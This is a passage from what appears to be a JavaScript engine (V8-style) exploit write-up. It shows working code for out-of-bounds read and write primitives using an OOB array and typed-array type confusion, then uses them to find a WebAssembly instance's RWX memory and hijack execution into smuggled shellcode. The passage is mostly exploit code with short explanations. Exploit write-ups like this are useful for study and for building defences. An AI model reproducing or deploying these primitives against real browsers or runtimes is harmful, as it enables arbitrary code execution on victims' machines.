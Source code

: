 ```js
                float_aux[0] = OOB[marker+1];
                save = float_aux[0];
                int_aux[0] = Number(addr-4n);
                OOB[marker+1] = float_aux[0];
            }
            ret = leak_obj.floatprop;
            OOB[(int_aux[0] == 0x44444444) ? marker : marker+1] = save;
            return ftoi(ret);
        }
```

Similarly, We can use the same `OOB` array to do an 64 bit arbitrary `write` with the help of the fields in our special object we created before (`local_findme`).

```js
        print("Achieved arbitrary write.")
        function write64(addr, val){
            let aux = new ArrayBuffer(8);
            let int_aux = new Uint32Array(aux);
            let float_aux = new Float64Array(aux);
            
            float_aux[0] = OOB[marker];
            
            let save;
            if(int_aux[0] == 0x44444444){
                save = float_aux[0];
                int_aux[1] = Number(addr-4n);
                OOB[marker] = float_aux[0];
            }
            else{
                float_aux[0] = OOB[marker+1];
                save = float_aux[0];
                int_aux[0] = Number(addr-4n);
                OOB[marker+1] = float_aux[0];
            }
            leak_obj.floatprop = itof(val);
            OOB[(int_aux[0] == 0x44444444) ? marker : marker+1] = save;
            if(read64(addr) != val){
                print("write failed.");
                return 1;
            }
        }

```

We find the address of the `wasm_instance`, from which a specific offset contains `RWX` region address, where we have our smuggled shellcode. So we overwrite the `main`'s entry point to our smuggled shellcode. 
```js
        let addr_wasm = addrof(wasm_instance);
        let addr_rwx = read64(addr_wasm + 0x68n);
        print("RWX: " + hex(addr_rwx));
        
        // 64 bit address and 64 bit write.
        let bof = new ArrayBuffer(8);
        let int_bof = new Uint32Array(bof);
        let float_bof = new Float64Array(bof);
        let addr_int_bof = addrof(int_bof);

        write64(addr_int_bof+0x28n, addr_rwx);
        int_bof[0] = 0x047be9;
        print(hex(read64(addr_int_bof+0x28n)));
        // print(hex(read64(addr_rwx-411n)));
        int_bof;
        f1();
```
